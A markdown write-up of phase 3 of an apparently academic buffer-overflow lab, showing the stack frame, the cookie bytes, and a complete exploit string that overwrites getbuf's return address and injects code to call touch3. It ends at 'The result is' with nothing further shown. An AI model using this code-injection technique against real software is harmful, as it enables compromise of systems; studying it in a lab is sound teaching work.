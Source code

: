 ### Phase 3
- The stack frame

    ![](./images/phase_3_stack_frame.png)

- The overall structure is similar to phase 2 except that
    - We store the cookie string at `0x5561dcb8`

    - The exploit code is to move the cooke string address to register `%rdi`

- The cookie string `59b997fa`

    ```
    35 39 62 39 39 37 66 61 00
    ```

- The phase 3 exploit string is 

    ```
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00 /* 40 bytes to fill the stack frame of getbuf */
    b0 dc 61 55 00 00 00 00 /* position of return address of launch function */
    fa 18 40 00 00 00 00 00 /* touch3 first instruction address */
    48 c7 c7 b8 dc 61 55 c3 /* movq $0x5561dcb8, %rdi  ret */ 
    35 39 62 39 39 37 66 61
    00 00 00 00 00 00 00 00 /* cookie string */
    ```

- The result is 
